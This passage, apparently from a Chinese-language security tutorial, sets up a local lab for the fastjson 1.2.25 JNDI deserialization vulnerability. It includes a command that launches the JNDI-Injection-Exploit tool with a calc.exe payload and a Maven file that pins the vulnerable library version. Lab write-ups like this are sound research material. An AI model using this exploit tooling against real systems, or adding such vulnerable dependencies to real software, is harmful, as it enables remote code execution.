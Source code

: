 ```plain
"C:\Program Files\Java\jdk1.8.0_65\bin\java.exe" -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

导入`fastjson1.2.25`：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_8u66_1_2_25</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.25</version>
        </dependency>
    </dependencies>
</project>
```

在`Main.java`中写入如下内容：

[![](assets/1706233003-8a90796f33b556b1a74cb9febaf05e99.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124182556-f5c5cfc2-baa2-1.jpeg)
